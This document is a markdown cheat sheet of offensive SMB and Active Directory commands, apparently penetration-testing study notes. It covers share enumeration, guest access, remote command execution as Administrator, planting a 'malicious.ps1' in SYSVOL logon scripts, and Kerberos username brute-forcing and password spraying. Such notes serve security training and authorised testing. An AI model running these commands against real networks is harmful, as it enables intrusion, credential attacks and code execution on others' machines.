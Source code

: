 # *nmap*
```shell
# will check for anonymous listing
sudo nmap -v -Pn -n -sCV -p139,445 --script "smb-protocols, smb-enum-shares, smb-vuln-*" `tip` -oN nmap_smb_MACHINE
```
# ***Anonymous Listing***
```shell
# will show perms; pwned == Code Exec
nxc smb `tip` [ -d `dom` ] --shares
nxc smb `tip` -u 'guest' -p '' --shares
```

```shell
smbclient \\\\`tip`\\ -N -L
```

```shell
smbmap -H `tip` [ -d `dom`]
smbmap -H `tip` -u 'guest' -p '' [ -d `dom` ]
```

# ***Anonymous Access***

```shell
smbclient -U '%' -N \\\\`tip`\\<share>
```

```shell
# will show perms but need to be able to list
smbmap -H `tip` -d `dom` -R share
smbmap -H `tip` -u 'guest' -p '' -R share
```
# ***Enum4linux***
***rpc over SMB***
```shell
enum4linux -a `tip`
enum4linux -a -u 'DOMAIN.com\user' -p 'pass' `tip`
```

```shell
sudo nmap -v -Pn -n -sCV -p445 --script=msrpc-enum `tip`
```

# ***smbclient***
```shell
smbclient -L \\\\`tip`\\ -U 'DOMAIN.com/user%pass'  [ --pw-nt-hash HASH ] [ -W `dom` ]
smbclient \\\\`tip`\\<share> -U 'DOMAIN.com/user%pass' [ --pw-nt-hash HASH ] [ -W `dom` ]
```
# ***smbmap (X)***
```shell
smbmap -H `tip` -u 'user' -p 'pass' -d `dom`
smbmap -H `tip` -u 'user' -p 'pass' -d `dom` -R share
```

```shell
# useful for kerb auth
impacket-smbclient `dom`/'username'@`tip` -k -no-pass
```
# ***nxc (X)***
```shell
nxc smb `tip` -u 'user' -p 'pass' [ -H HASH ] --shares
```
# ***X***

```shell
nxc smb `tip` -u 'Administrator' -p 'pass' -x whoami --local-auth
```

```shell
smbmap -H `tip` -u 'user' -p 'pass' -x 'net group "Domain Admins" /domain'
```

# ***Interact***

```shell
prompt off
recurse on
ls
cd
```

```shell
# download file/recursively
mget
mget *
```
# ***Files***
```shell
# Files
nxc smb `tip` -u 'user' -p 'pass' --get-file  \\SYSVOL\\whoami.txt /tmp/whoami.txt
nxc smb `tip` -u 'user' -p 'pass' --put-file /tmp/whoami.txt \\Windows\\Temp\\whoami.txt
```

```shell
smbclient \\\\`tip`\\SYSVOL -U 'DOMAIN.com/user%pass' -c "cd example.local/Scripts; get logon.bat /home/user/Desktop/logon.bat"
smbclient \\\\`tip`\\SYSVOL -U 'DOMAIN.com/user%pass' -c "cd example.local/Scripts; put /home/user/malicious.ps1 malicious.ps1"
```

```shell
# crruent dir
smbmap -H `tip` -d `dom` -u 'user' -p 'pass' -r SYSVOL -A '.*' [ | 'logon.bat' ]

smbmap -H `tip` -d `dom` -u 'user' -p 'pass' -r SYSVOL --download '/example.local/Scripts/logon.bat' '/home/user/Desktop/logon.bat'
smbmap -H `tip` -u 'user' -p 'pass' -r SYSVOL --upload '/home/user/malicious.ps1 /example.local/Scripts/malicious.ps1'
```

# ***Bruteforce Shares***
***You have Anonymous Access but not Listing***
```shell
smb_brute.py `tip`/usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
enum4linux -s /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt `tip`
```
# ***Bruteforce Username***
***Doesn't require password***
```shell
kerbrute -dc-ip `dc` -domain`dom` -users /usr/share/seclists/Usernames/Honeypot-Captures/multiplesources-users-fabian-fingerle.de.txt

# spray password on usernames
kerbrute -dc-ip `dc` -domain`dom` -users users.txt -passwords passwords.txt
```

# ***Windows***
```shell
net view \\dc01 /all [ /domain ]
```

# ***resources***
```shell
# https://juggernaut-sec.com/ad-recon-netbios-smb-part-1/#Accessing_Shares
# https://juggernaut-sec.com/ad-recon-msrpc-over-smb/
# https://www.reddit.com/r/oscp/comments/1e435sa/how_do_you_enum_smb/

# https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html
# https://www.reddit.com/r/oscp/comments/14by0mv/my_active_directory_notes_passed_ad_in_6_hours/
# https://drive.google.com/file/d/1sLxTSGQImCxE8KbPi063OuH461ADzCR3/view
```